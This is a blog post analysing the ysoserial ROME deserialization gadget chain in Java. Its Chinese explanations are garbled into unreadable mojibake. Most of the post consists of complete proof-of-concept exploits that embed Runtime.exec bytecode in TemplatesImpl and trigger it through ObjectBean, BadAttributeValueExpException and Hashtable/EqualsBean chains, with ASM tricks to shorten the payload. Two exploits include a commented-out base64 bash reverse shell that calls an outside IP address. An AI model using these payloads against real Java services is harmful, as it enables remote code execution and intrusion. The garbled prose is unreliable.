



*
������֪����
ǰ��
ObjectBean
com.sun.syndication.feed.impl.ObjectBean��Rome�ṩ��һ����װ����, ��ʼ��ʱ�ṩ��һ��Class���ͺ�һ��Object����ʵ�����з�װ
��Ҳ��������Ա�������ֱ���EqualsBean�� ToStringBean��CloneableBean�࣬ΪObjectBean�ṩ��equals��toString��clone�Լ�hashCode����
��ObjectBean#hashCode��������EqualsBean���beanHashCode����

���������_obj��Ա������toString�������������©�������ĵط���
ToStringBean
com.sun.syndication.feed.impl.ToStringBean�Ǹ������ṩtoString��������, ����������toString����, ��һ�����εķ���, ��ȡ����������һ�����_obj�����б�����������, �����õڶ���toString����. �ڵڶ���toString������, �����BeanIntrospector#getPropertyDescriptors����ȡ_beanClass������getter��setter����, �����жϲ����ij���, ���ȵ���0�ķ�����ʹ��_objʵ�����з������, ͨ����������ǿ���������TemplatesImpl��������.

��дPOC
package ysoserial.vulndemo;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
public class Rome_POC {
//�����������
public static String serialize(Object obj) throws IOException {
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream objOutput = new ObjectOutputStream(barr);
objOutput.writeObject(obj);
byte[] bytes = barr.toByteArray();
objOutput.close();
String bytesOfBase = Base64.getEncoder().encodeToString(bytes);
return bytesOfBase;
}
//�������������
public static void unserialize(String bytesOfBase) throws IOException, ClassNotFoundException {
byte[] bytes = Base64.getDecoder().decode(bytesOfBase);
ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
ObjectInputStream objInput = new ObjectInputStream(byteArrayInputStream);
objInput.readObject();
}
//Ϊ�����������ֵ�Ĺ���
public static void setFieldVlue(Object obj, String fieldName, Object value) throws NoSuchFieldException, IllegalAccessException {
Field field = obj.getClass().getDeclaredField(fieldName);
field.setAccessible(true);
field.set(obj, value);
}
//payload������
public static void exp() throws CannotCompileException, NotFoundException, IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
//���ɶ����bytecodes
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
ClassPool classPool = ClassPool.getDefault();
CtClass ctClass = classPool.makeClass("evilexp");
ctClass.makeClassInitializer().insertBefore(cmd);
ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
byte[] bytes = ctClass.toBytecode();
//��Ϊ��TemplatesImp���еĹ��캯���У�_bytecodesΪ��ά����
byte[][] bytes1 = new byte[][]{bytes};
//����TemplatesImpl��
TemplatesImpl templates = new TemplatesImpl();
setFieldVlue(templates, "_name", "RoboTerh");
setFieldVlue(templates, "_bytecodes", bytes1);
setFieldVlue(templates, "_tfactory", new TransformerFactoryImpl());
//��װһ�������ಢ����Map��
ObjectBean roboTerh = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "RoboTerh"));
HashMap hashmap = new HashMap();
hashmap.put(roboTerh, "RoboTerh");
//ͨ������д����������map��
ObjectBean objectBean = new ObjectBean(Templates.class, templates);
setFieldVlue(roboTerh, "_equalsBean", new EqualsBean(ObjectBean.class, objectBean));
//����payload�����
String payload = serialize(hashmap);
System.out.println(payload);
//����payload����֤�Ƿ�ɹ�
unserialize(payload);
}
public static void main(String[] args) throws NotFoundException, CannotCompileException, IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
exp();
}
}����������
��unserialize�����д��϶ϵ�
��unserialize�����е�readObject�����п�ʼ�����л�
��������HashMap#readObject
֮��ͻ���keyֵ��hash���������ʱ���Key��ObjectBean��

֮����HashMap#hash�У������keyֵ��hashcode()����

ֱ����ת����ObjectBean#hashCode����������������_equalsBean��beanHashCode����
����EqualsBean#beanHashCode�����������_obj��ObjectBean��Ķ�����������toString����

����ObjectBean#toString�����������_toStringBean���ԣ���ToStringBean��Ķ�����������toString����
֮�����ToStringBean#toString�������ȡ�����е�getter��setter��Ȼ���жϲ������ȵ�����һЩ��������Ȼ������getOutputProperties�������

����IJ������TemplatesImpl�����������
getOutputProperties
newTransformer
getTransletInstance
defineTransletClasses�������ĵ�����Ϊ��
HashMap.readObject()
ObjectBean.hashCode()
EqualsBean.beanHashCode()
ObjectBean.toString()
ToStringBean.toString()
TemplatesImpl.getOutputProperties()������ɧ����
����payload
���Ǵ���ƪ����������Եõ���Сpayload�ķ���
�����ᵽ�����ֵ���С
- ���л����ݱ�������С
- ���
TemplatesImpl��_bytecodes�ֽ������С - ����ִ�еĴ��������С��
STATIC����飩
�������ROME�������
��ǰ���дPOC��ʱ�����TemplatesImpl���Խ����Ż�����
- ����
_name���ƿ�����һ���ַ� - ����
_tfactory���Կ���ɾ��������TemplatesImpl�ó��� - ����
EvilByteCodes�ಶ���쳣�����账��
�����Ż�֮��Ϊ��
package ysoserial.vulndemo;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import org.objectweb.asm.ClassReader;
import org.objectweb.asm.ClassVisitor;
import org.objectweb.asm.ClassWriter;
import org.objectweb.asm.Opcodes;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.*;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
public class Rome_shorter2 {
public static byte[] getTemplatesImpl(String cmd) throws NotFoundException, CannotCompileException, IOException {
ClassPool classPool = ClassPool.getDefault();
CtClass ctClass = classPool.makeClass("a");
CtClass superClass = classPool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
ctClass.setSuperclass(superClass);
CtConstructor constructor = CtNewConstructor.make(" public a(){\n" +
" try {\n" +
" Runtime.getRuntime().exec(\"" + cmd + "\");\n" +
" }catch (Exception ignored){}\n" +
" }", ctClass);
ctClass.addConstructor(constructor);
byte[] bytes = ctClass.toBytecode();
ctClass.defrost();
return bytes;
}
//ʹ��asm������������
public static byte[] shorterTemplatesImpl(byte[] bytes) throws IOException {
String path = System.getProperty("user.dir") + File.separator + "a.class"; //File.separator�Ƿָ���
try {
Files.write(Paths.get(path), bytes);
} catch (IOException e) {
e.printStackTrace();
}
try {
//asmɾ��LINENUMBER
byte[] allBytes = Files.readAllBytes(Paths.get(path));
ClassReader classReader = new ClassReader(allBytes);
ClassWriter classWriter = new ClassWriter(ClassWriter.COMPUTE_FRAMES);
int api = Opcodes.ASM9;
ClassVisitor classVisitor = new shortClassVisitor(api, classWriter);
int parsingOptions = ClassReader.SKIP_DEBUG | ClassReader.SKIP_FRAMES;
classReader.accept(classVisitor, parsingOptions);
byte[] out = classWriter.toByteArray();
Files.write(Paths.get(path), out);
} catch (IOException e) {
e.printStackTrace();
}
byte[] bytes1 = Files.readAllBytes(Paths.get("a.class"));
//ɾ��class�ļ�
Files.delete(Paths.get("a.class"));
return bytes1;
}
//��ΪClassVisitor�dz����࣬��Ҫ�̳�
public static class shortClassVisitor extends ClassVisitor{
private final int api;
public shortClassVisitor(int api, ClassVisitor classVisitor){
super(api, classVisitor);
this.api = api;
}
}
//��������ֵ
public static void setFieldValue(Object obj, String fieldName, Object value) throws NoSuchFieldException, IllegalAccessException {
Field field = obj.getClass().getDeclaredField(fieldName);
field.setAccessible(true);
field.set(obj, value);
}
public static String serialize(Object obj) throws IOException {
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream objOutput = new ObjectOutputStream(barr);
objOutput.writeObject(obj);
byte[] bytes = barr.toByteArray();
objOutput.close();
return Base64.getEncoder().encodeToString(bytes);
}
public static void unserialize(String code) throws IOException, ClassNotFoundException {
byte[] decode = Base64.getDecoder().decode(code);
ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(decode);
ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
objectInputStream.readObject();
}
public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, NotFoundException, CannotCompileException, IOException, ClassNotFoundException {
TemplatesImpl templates = new TemplatesImpl();
//setFieldValue(templates, "_bytecodes", new byte[][]{getTemplatesImpl("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjAuMjQuMjA3LjEyMS84MDAwIDA+JjE=}|{base64,-d}|{bash,-i}")});
setFieldValue(templates, "_bytecodes", new byte[][]{shorterTemplatesImpl(getTemplatesImpl("calc"))});
setFieldValue(templates, "_name", "a");
ToStringBean toStringBean = new ToStringBean(Templates.class, templates);
EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
ObjectBean objectBean = new ObjectBean(String.class, "a");
HashMap hashMap = new HashMap();
hashMap.put(null, null);
hashMap.put(objectBean, null);
setFieldValue(objectBean, "_equalsBean", equalsBean);
String s = serialize(hashMap);
System.out.println("������" + s.length());
System.out.println(s);
unserialize(s);
}
}��ͼ��ʹ����
- javassist��̬����class�ļ�������
_name��Ϊһ���ַ�a, ɾ����_tfactory����ֵ��д��ղι�����ⷽ�� - ʹ��asm����������̬���ɵ�class�ļ���
LINENUMBERָ���ɾ��
ͬ����Ҳ���Բ�����Runtime��������ִ�У�ʹ��new ProcessBuilder(new String[]{cmd}).start()�����ܹ�����payload
������������������asmɾ��ָ�
���ȶ��Ѿ�����2000�ˣ�����˵ɾ��ָ���Ӱ��payload��ִ�����ܴﵽ����ִ�е�Ŀ��
����������
����֪������ysoserial��Ŀ�е�ROME������Ҫ�Ĵ��������ObjectBean������toString()����������������TOStringBean��toString()���������ִ����getOutputProperties()���getter������������������ͬ�������ҵ�������toString�������࣬���һ����������Ӹ��Ӷ�
BadAttributeValueExpException
��������е�readObject������
���������Ƕ�ȡObjectInputStream�е���Ϣ
����ͨ��.get�����õ�val������ֵ
֮��ͨ��һϵ���жϣ����뵽��valObj.toString()�����У�������ʱ���valObj��ToStringBean�࣬�ɹ�����������toString()����������������ִ�е�Ŀ��
POC:
package ysoserial.vulndemo;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.*;
import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
public class Rome_shorter3 {
public static byte[] getTemplatesImpl(String cmd) throws NotFoundException, CannotCompileException, IOException {
ClassPool classPool = ClassPool.getDefault();
CtClass ctClass = classPool.makeClass("Evil");
CtClass superClass = classPool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
ctClass.setSuperclass(superClass);
CtConstructor constructor = CtNewConstructor.make(" public Evil(){\n" +
" try {\n" +
" Runtime.getRuntime().exec(\"" + cmd + "\");\n" +
" }catch (Exception ignored){}\n" +
" }", ctClass);
ctClass.addConstructor(constructor);
byte[] bytes = ctClass.toBytecode();
ctClass.defrost();
return bytes;
}
//��������ֵ
public static void setFieldValue(Object obj, String fieldName, Object value) throws NoSuchFieldException, IllegalAccessException {
Field field = obj.getClass().getDeclaredField(fieldName);
field.setAccessible(true);
field.set(obj, value);
}
public static String serialize(Object obj) throws IOException {
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream objOutput = new ObjectOutputStream(barr);
objOutput.writeObject(obj);
byte[] bytes = barr.toByteArray();
objOutput.close();
return Base64.getEncoder().encodeToString(bytes);
}
public static void unserialize(String code) throws IOException, ClassNotFoundException {
byte[] decode = Base64.getDecoder().decode(code);
ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(decode);
ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
objectInputStream.readObject();
}
public static void main(String[] args) throws NotFoundException, CannotCompileException, IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
TemplatesImpl templates = new TemplatesImpl();
setFieldValue(templates, "_bytecodes", new byte[][]{getTemplatesImpl("calc")});
setFieldValue(templates, "_name", "a");
ToStringBean toStringBean = new ToStringBean(Templates.class, templates);
//��ֹ����payload��ʱ��©��
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(123);
setFieldValue(badAttributeValueExpException, "val", toStringBean);
String s = serialize(badAttributeValueExpException);
System.out.println(s);
System.out.println("������" + s.length());
unserialize(s);
}
}��������
BadAttributeValueExpException#readObject
ToStringBean#toString
TemplatesImpl#getOutputProperties
.....EqualsBean
��������д����д�������������getter�÷�����
ToStringBean:
EqualsBean:

��������ȷʵ��
�ǵ����Dz��ǿ��������أ�
��������equals����������beanEquals����
����Ҳ֪����CC7��ʱ��ʹ����equals����
��Hashtable#readObject��
����Hashtable#reconstitutionPut��
���ȵ�����key��hashcode������������hashֵ��֮���ڱ������ж�������hashֵ�Ƿ���ȣ�������֮��Żᴥ����equals����
���Ǿ���Ҫ������hash��ȵļ���yy / zZ������ȵ�

Ȼ����ô����equals�����أ�
������������equals������

��������valueΪEqualsBean�����������e.getValue��TemplateImpl�����������ܹ��������������
����HashMap������hashֵ��hashMap ��hashCode �DZ������е�Ԫ�أ�Ȼ�����hashCode����ӣ�hashCode��ֵ��key��value��hashCode���
����(‘yy’,obj); �ǵ���put(‘zZ’,obj)
��POC��
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import javassist.*;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;
public class RomeShorter{
//����TemplatesImpl��
public static byte[] getTemplatesImpl(String cmd) throws NotFoundException, CannotCompileException, IOException {
ClassPool classPool = ClassPool.getDefault();
CtClass ctClass = classPool.makeClass("Evil");
CtClass superClass = classPool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
ctClass.setSuperclass(superClass);
CtConstructor constructor = CtNewConstructor.make(" public Evil(){\n" +
" try {\n" +
" Runtime.getRuntime().exec(\"" + cmd + "\");\n" +
" }catch (Exception ignored){}\n" +
" }", ctClass);
ctClass.addConstructor(constructor);
byte[] bytes = ctClass.toBytecode();
ctClass.defrost();
return bytes;
}
//��������ֵ
public static void setFieldValue(Object obj, String fieldName, Object value) throws NoSuchFieldException, IllegalAccessException {
Field field = obj.getClass().getDeclaredField(fieldName);
field.setAccessible(true);
field.set(obj, value);
}
public static String serialize(Object obj) throws IOException {
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream objOutput = new ObjectOutputStream(barr);
objOutput.writeObject(obj);
byte[] bytes = barr.toByteArray();
objOutput.close();
return Base64.getEncoder().encodeToString(bytes);
}
public static void unserialize(String code) throws IOException, ClassNotFoundException {
byte[] decode = Base64.getDecoder().decode(code);
ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(decode);
ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
objectInputStream.readObject();
}
public static void main(String[] args) throws NotFoundException, CannotCompileException, IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
TemplatesImpl templates = new TemplatesImpl();
//setFieldValue(templates, "_bytecodes", new byte[][]{getTemplatesImpl("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjAuMjQuMjA3LjEyMS84MDAwIDA+JjE=}|{base64,-d}|{bash,-i}")});
setFieldValue(templates, "_bytecodes", new byte[][]{getTemplatesImpl("calc")});
setFieldValue(templates, "_name", "a");
EqualsBean bean = new EqualsBean(String.class,"s");
HashMap map1 = new HashMap();
HashMap map2 = new HashMap();
map1.put("yy",bean);
map1.put("zZ",templates);
map2.put("zZ",bean);
map2.put("yy",templates);
Hashtable table = new Hashtable();
table.put(map1,"1");
table.put(map2,"2");
setFieldValue(bean,"_beanClass",Templates.class);
setFieldValue(bean,"_obj",templates);
String s = serialize(table);
System.out.println(s);
System.out.println(s.length());
unserialize(s);
}
}����Ϊ1520
���������ʹ��ASMɾ��ָ���أ�
//asm
public static byte[] shorterTemplatesImpl(byte[] bytes) throws IOException {
String path = System.getProperty("user.dir") + File.separator + "a.class"; //File.separator�Ƿָ���
try {
Files.write(Paths.get(path), bytes);
} catch (IOException e) {
e.printStackTrace();
}
try {
//asmɾ��LINENUMBER
byte[] allBytes = Files.readAllBytes(Paths.get(path));
ClassReader classReader = new ClassReader(allBytes);
ClassWriter classWriter = new ClassWriter(ClassWriter.COMPUTE_FRAMES);
int api = Opcodes.ASM9;
ClassVisitor classVisitor = new Rome_shorter2.shortClassVisitor(api, classWriter);
int parsingOptions = ClassReader.SKIP_DEBUG | ClassReader.SKIP_FRAMES;
classReader.accept(classVisitor, parsingOptions);
byte[] out = classWriter.toByteArray();
Files.write(Paths.get(path), out);
} catch (IOException e) {
e.printStackTrace();
}
byte[] bytes1 = Files.readAllBytes(Paths.get("a.class"));
//ɾ��class�ļ�
Files.delete(Paths.get("a.class"));
return bytes1;
}
//��ΪClassVisitor�dz����࣬��Ҫ�̳�
public static class shortClassVisitor extends ClassVisitor{
private final int api;
public shortClassVisitor(int api, ClassVisitor classVisitor){
super(api, classVisitor);
this.api = api;
}
}�ɹ������˼����������ҳ�������Ϊ��1444
����POC
ʹ��ysoserial��������POC
java -jar ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ROME 'calc'|base64�ο�
Java �����л�©�����壩 - ROME/BeanShell/C3P0/Clojure/Click/Vaadin | ��ʮ�� (su18.org)


- Post link: https://roboterh.github.io/2022/04/05/ysoserial%E5%88%86%E6%9E%90%E4%B9%8BROME%E9%93%BE/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.